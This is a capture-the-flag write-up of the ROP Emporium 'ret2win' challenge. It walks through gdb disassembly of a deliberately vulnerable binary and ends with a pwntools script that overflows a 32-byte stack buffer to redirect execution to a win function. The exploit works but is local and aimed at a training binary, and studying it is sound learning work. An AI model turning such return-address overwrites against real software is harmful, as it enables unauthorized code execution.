 ```yaml
---
title: Return-Oriented Programming - ret2win
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary:  
images: []
layout: PostLayout
canonicalUrl:
---
```


## Introduction
Challenge description

>Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.

This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first thing is to check the binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like shellcode.and the behavior of this program we will use gdb. gdb is a tools that enables to inspect the behavior of binaries at runtime.
```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb) 
```
The binary has various functions has as shown in the output above.For initial analysis we start at the main function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret    
End of assembler dump.
(gdb) 
```
From the initial analysis of the main function, we are calling an interesting function called **pwnme**. Next disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave  
   0x0000000000400755 <+109>:	ret    
End of assembler dump.
```
From the disassembled code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory are we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size  32 bytes from the address of base pointer as shown in the stack diagram below.

![](/static/images/ropemporium/stack.png)

Therefore the next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we see we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```
Because we are reading more than the buffer can hold, we corrupt the adjacent memory regions therefore casusing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image shown above is to fill the buffer, overwrite the rbp register and control the return address with our desired address which is **ret2win** function address. 

## Exploit

The exploit code for this ret2win function is,
```python3
import pwn

pwn.context.encoding = "latin-1" 
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the script we get the flag.

```bash
vx@archie:ret2win$ python3 x.py 
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
